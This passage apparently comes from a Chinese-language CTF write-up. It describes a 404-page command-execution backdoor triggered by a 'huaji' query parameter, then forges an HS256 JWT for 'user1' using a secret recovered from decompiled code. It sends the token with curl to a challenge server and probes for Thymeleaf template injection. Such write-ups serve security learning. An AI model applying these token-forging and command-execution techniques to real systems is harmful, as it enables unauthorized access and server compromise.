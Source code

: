 在站点传几次token

![image-20251012123015639](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419966.png)

访问任意触发 404 的 URL，并在查询参数里带上 `huaji=命令`，就会在服务器上执行该命令

<img src="https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419967.png" alt="image-20251012122957612" style="zoom:25%;" />

<img src="https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419968.png" alt="image-20251012123101745" style="zoom: 25%;" />



### authweb

先伪造jwt，逆向分析得知有两个用户`user1`和`admin`，

![image-20251012015142242](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419969.png)

而`ROLE_USER`权限才能文件上传，所以用`user1`

![image-20251012015534082](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419970.png)

`secret`可以在`JwtTokenProvider.class`里面拿

![image-20251012015752739](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419971.png)

写脚本生成一个jwt

```python
import jwt, time
secret = "25d55ad283aa400af464c76d713c07add57f21e6a273781dbf8b7657940f3b03"
now = int(time.time())
payload = {
    "sub": "user1"
}
tok = jwt.encode(payload, secret, algorithm="HS256")
print(tok)
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyMSJ9.sFqXJja3YmLPT2ULrh0wnb-8HmGT13qSRUVs9-1rNCw

```

之后curl测试，

```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyMSJ9.sFqXJja3YmLPT2ULrh0wnb-8HmGT13qSRUVs9-1rNCw" http://45.40.247.139:15040/upload
```

返回405，或者使用OPTIONS 请求，都说明此处应当post上传文件，所以考虑thymeleaf模板注入，**此处路径经过多次fuzz**（ps：当时好像因为渲染问题一直报错）。

传模板

传了带Thymeleaf的，可以加载，证明存在

```
<table>
  <thead>
    <tr>
      <th th:text="#{msgs.headers.name}">Name</th>
      <th th:text="#{msgs.headers.price}">Price</th>
    </tr>
  </thead>
  <tbody>
    <tr th:each="prod: ${allProducts}">
      <td th:text="${prod.name}">Oranges</td>
      <td th:text="${#numbers.formatDecimal(prod.price, 1, 2)}">0.99</td>
    </tr>
  </tbody>
</table>
```